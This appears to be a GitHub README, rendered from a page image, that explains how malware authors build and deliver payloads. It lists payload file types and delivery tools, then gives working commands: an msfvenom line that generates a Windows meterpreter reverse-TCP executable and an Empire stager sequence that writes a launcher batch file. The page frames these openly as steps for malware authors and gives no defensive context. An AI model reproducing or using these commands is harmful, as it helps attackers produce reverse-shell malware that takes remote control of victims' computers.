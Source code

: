 
---
<p align=center href="http://findasnake.com"><img src="https://img.shields.io/badge/Payload-Types-red?style=for-the-badge&logo=ghost&style&logoColor=yellow" width=50%></p>
---

- **Executable**: Malware authors can use an executable payload.
- **Script**: Malware authors can use a script payload.
- **Macro**: Malware authors can use a macro payload.
- **DLL**: Malware authors can use a DLL payload.
- **PDF**: Malware authors can use a PDF payload.
- **Office**: Malware authors can use an Office payload.
- **Archive**: Malware authors can use an archive payload.
- **Image**: Malware authors can use an image payload.
- **Video**: Malware authors can use a video payload.


---
<p align=center href="http://findasnake.com"><img src="https://img.shields.io/badge/Useful-Tools-yellow?style=for-the-badge&logo=ghost&style&logoColor=yellow" width=50%></p>
---


- **Metasploit**: Malware authors can use Metasploit to deliver the payload.
- **Empire**: Malware authors can use Empire to deliver the payload.
- **PowerShell**: Malware authors can use PowerShell to deliver the payload.
- **Python**: Malware authors can use Python to deliver the payload.

<p align=center href="http://findasnake.com"><img src="https://img.shields.io/badge/Payload-Generation-red?style=for-the-badge&logo=ghost&style&logoColor=red" width=50%></p>


``The first step is to generate the payload. The payload can be generated using a variety of tools, such as:``

---
 <img src="https://img.shields.io/badge/Example-Metasploit-yellow.svg?style=flat-square?style=plastic/"> 

### **Metasploit** Example:
---
```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f exe > payload.exe
```

---
 <img src="https://img.shields.io/badge/Example-Metasploit-yellow.svg?style=flat-square?style=plastic/"> 

### **Empire** Example:
------
```
usestager windows/launcher_bat
set Listener http
set OutFile payload.bat
execute
```
 <img src="https://img.shields.io/badge/Example-Metasploit-yellow.svg?style=flat-square?style=plastic/"> 

